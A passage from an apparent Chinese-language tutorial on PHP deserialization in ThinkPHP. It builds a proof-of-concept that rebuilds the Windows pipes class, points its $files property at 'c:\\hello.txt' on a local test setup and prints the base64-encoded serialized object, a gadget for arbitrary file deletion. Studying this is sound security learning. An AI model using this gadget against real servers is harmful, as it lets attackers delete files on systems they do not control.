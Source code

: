 > 可以看到变量 `$files` 的定义

复制变量 `$files` 所在的类

![](./../../../images/PHP_%E5%BA%8F%E5%88%97%E5%8C%96/%E5%A4%8D%E5%88%B6%E5%8F%98%E9%87%8F%20$files%20%E6%89%80%E5%9C%A8%E7%9A%84%E7%B1%BB.png)

删除无用的代码

```php
<?php
namespace think\process\pipes;
use think\Process;
class Windows extends Pipes
{
}
```

在 `C:\phpstudy_pro\WWW\think\public\removefile.php` 构造 POC ， 定义 `private $files = [];` 为 `$this->files=['c:\\hello.txt'];` ，定义一个空的 `Pipes` ，并增加 `public function _construct()` 魔术方法

```php
<?php
//引用命名空间和 Pipes 类
namespace think\process\pipes;
use think\Process;
class Pipes{
}
//Windows 类
class Windows extends Pipes
{
//files 属性
private $files = [];
//__construct 魔术方法
public function __construct()
{
//$this->files 属性的值修改为我们要删除的文件
$this->files=['c:\\hello.txt'];
}
}
//base64 输出序列化后的 Windows 对象
echo base64_encode(serialize(new Windows()));
?>
```
